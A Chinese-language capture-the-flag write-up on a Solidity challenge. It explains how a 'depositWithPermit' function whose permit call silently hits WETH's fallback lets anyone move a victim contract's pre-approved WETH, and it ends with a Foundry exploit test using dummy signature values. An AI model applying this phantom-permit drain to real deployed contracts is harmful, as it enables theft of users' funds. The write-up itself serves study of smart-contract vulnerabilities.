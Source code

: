 # 05.challenge

## 分析

### 1.全局观

三个合约：

- MockWETH：普通的ERC20代币
- MocksWETH：本身也是一个ERC20代币，并且拥有Permit功能，并且添加了一个普通的ERC20代币作为underlyingToken
- LostAssets：初始化题目

### 2.任务

将LostAssets合约的WETH设置为0

```solidity
    function isComplete() public view returns (bool) {
        require(WETH.balanceOf(address(this)) == 0);
        return true;
    }
```

### 3.分析

主要的是理解WETH、sWETH、LostAssets之间的授权关系，明白授权、转账时候的msg.sender是谁，资产情况如何。

```solidity
contract LostAssets {
    MockWETH public WETH;
    MocksWETH public sWETH;

    constructor() payable {
        require(msg.value >= 1 ether, "At least 1 ether");

        WETH = new MockWETH();
        sWETH = new MocksWETH(address(WETH));

        // WETH资产：LostAssets获得msg.value的WETH
        WETH.deposit{value: msg.value}();
        // WETH资产：LostAssets 授权给 sWETH合约
        WETH.approve(address(sWETH), type(uint256).max);
        // sWETH: LostAssets 将资产从WETH换成sWETH
        // 因为msg.sender是 LostAssets ，因此可以操作成功
        // 这里已经操作了一半的资产，因此还有0.5ether可以操作
        sWETH.deposit(msg.value / 2);
    }

    // 将LostAssets合约的WETH设置为0
    function isComplete() public view returns (bool) {
        require(WETH.balanceOf(address(this)) == 0);
        return true;
    }
}
```

WETH没有`permit()`方法

```solidity
    // 链下签名： 将资产从WETH换成sWETH
    function depositWithPermit(
        address target,
        uint256 value,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        address to
    ) external returns (uint256) {
        // underlying即WETH，没有这个方法，因此去到fallback()而不会检验，相当于啥也没写
        IERC20Permit(underlying).permit(target,address(this),value,deadline, v,r,s);
        // 因为有个已经执行过的操作：      WETH资产：LostAssets 授权给 sWETH合约
        // 因此sWETH合约可以用transferFrom()来操作 LostAssets 的WETH资产
        // 因为上面的代码形同虚设，因此任何人都可以使用此方法
        IERC20(underlying).safeTransferFrom(target, address(this), value);
        return _deposit(value, to);
    }
```

因为`permit()`没用，因此参数除了target必须填写lostAssets，其他随便填

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;

import "forge-std/Test.sol";
import "../../src/05.challenge/LostAssets.sol";

contract attackTest is Test {
    LostAssets lostAssets;
    MockWETH public WETH;
    MocksWETH public sWETH;

    function setUp() public{
        lostAssets = new LostAssets{value: 1 ether}();
        WETH = lostAssets.WETH();
        sWETH = lostAssets.sWETH();
    }

    function test_isComplete() public{
        sWETH.depositWithPermit(address(lostAssets), 0.5 ether, 99999999999, 1, 0x00, 0x00, address(this));
        assertEq(lostAssets.isComplete(),true);
    }

}
```



























































